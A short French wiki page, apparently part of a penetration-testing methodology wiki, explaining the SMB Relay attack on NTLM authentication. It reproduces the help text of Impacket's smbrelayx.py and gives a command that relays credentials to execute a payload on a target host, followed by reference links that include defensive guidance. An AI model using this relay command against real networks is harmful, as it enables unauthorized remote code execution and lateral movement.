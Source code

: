 ```yaml
---
title: SMB Relay
permalink: /SMB_Relay/
---
```


# SMB Relay

SMB Relay est une méthode d'attaque permettant de relayer une authentification NTLM pour s'authentifier auprès d'un service [SMB](/SMB "wikilink").

Outils
------

[Impacket](/Impacket "wikilink") propose un outil **smbrelayx.py**:

``` text
Impacket v0.9.13 - Copyright 2002-2015 Core Security Technologies

usage: smbrelayx.py [--help] [-h HOST] -e FILE
                    [-machine-account MACHINE_ACCOUNT]
                    [-machine-hashes LMHASH:NTHASH] [-domain DOMAIN]

For every connection received, this module will try to SMB relay that
connection to the target system or the original client

optional arguments:
  --help                show this help message and exit
  -h HOST               Host to relay the credentials to, if not it will relay
                        it back to the client
  -e FILE               File to execute on the target system
  -machine-account MACHINE_ACCOUNT
                        Domain machine account to use when interacting with
                        the domain to grab a session key for signing, format
                        is domain/machine_name
  -machine-hashes LMHASH:NTHASH
                        Domain machine hashes, format is LMHASH:NTHASH
  -domain DOMAIN        Domain FQDN or IP to connect using NETLOGON
```

Une utilisation simple est la suivante:

``` bash
smbrelayx.py -e payload.exe -h 10.33.1.1
```

Ceci executera le fichier payload.exe sur le serveur 10.33.1.1 si l'utilisateur qu'on relaie a les droits nécessaires.

Références
----------

### Liens externes

-   [SMBRelay avec python sur SANS](https://pen-testing.sans.org/blog/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)
-   [SMB Relay sur carnal0wnage](http://carnal0wnage.attackresearch.com/2012/11/windows-7-and-smb-relay.html)
-   [Méthodes de défense sur skullsecurity](https://blog.skullsecurity.org/2008/ms08-068-preventing-smbrelay-attacks)
-   [MS08_068 + MS10_046 = FUN UNTIL 2018](http://room362.com/post/2012/2012-02-11-ms08_068-ms10_046-fun-until-2018/)

[Category:Méthodologies](/Category:Méthodologies "wikilink")

